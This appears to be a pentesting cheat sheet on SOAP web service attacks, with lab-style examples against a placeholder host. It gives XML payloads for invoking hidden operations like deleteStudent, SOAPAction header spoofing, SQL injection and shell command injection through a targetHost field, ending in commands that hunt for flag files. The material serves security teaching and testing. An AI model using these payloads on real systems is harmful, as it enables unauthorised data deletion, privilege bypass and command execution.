 Use google to find the wsdl file

    site:www.vuln.att filetype:wsdl

or you can use the **"?wsdl | .wsdl | ?disco"** at the end of the url

# Example

An application contains three operations and requires Student ID:

- **studentInfo** 
- **studentExam**
- **studentBilling**

But if we request the **wsdl** file we can notice some hidden operations like :

- **deleteStudent**
- **getAdminInfo**

So if there are no restrictions then we can change the **studentInfo** operation to **deleteStudent**.

    <SOAP-ENV:deleteStudent>
        <id>8</id>
    </SOAP-ENV:deleteStudent>

<br/>

# Spoof a SOAP action header

The header soap action is set to **getStudentInfo**

    SOAPAction: "http://www.vuln.att.com/getStudentInfo"

A remote attacker can invoke the method **deleteAllStudents**  by changing the soap header

    SOAPAction: "http://www.vuln.att.com/deleteAllStudents"

<br/>

# SQLi through SOAP


    <SOAP-ENV:getStudentInfo>
        <id> ' or '1'='1 </id>
    </SOAP-ENV:getStudentInfo>


# Lab example
### Bypass the SOAP body restrictions using the SOAPAction header.

<br/>

Add the header :

    SOAPAction: urn:ws-user-account#getAdminInfo

If the request is restricted to only admins, look for the soap action header related to the admin operation.

<br/>

# Command Execution

    <targetHost>
     ; ls
    </targetHost>

<br/>

    <targetHost>
     ; find / -iname *flag* 2>/dev/null
    </targetHost>

**iname** matches names but case insensitive.
**2>/dev/null** to not print out errors.


<br/>

    <targetHost>
     ; cat /app/flag3
    </targetHost>